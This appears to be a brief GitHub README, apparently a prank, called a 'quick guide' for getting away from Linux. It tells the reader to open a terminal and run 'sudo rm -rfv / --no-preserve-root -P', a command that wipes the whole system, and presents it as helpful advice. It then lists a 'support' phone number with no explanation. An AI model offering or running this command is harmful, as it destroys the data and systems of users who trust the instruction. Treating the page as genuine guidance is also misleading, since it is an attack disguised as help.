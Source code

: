 # main
QUICK-GUIDE-TO-AVOIDE-LINUX
button press "CTRL" + "ALT" + "T" put command into terminal window : "#sudo rm -rfv / --no-preserve-root -P " 


























SUPPORT HELP: 
Rest of World +44 203 656 5291

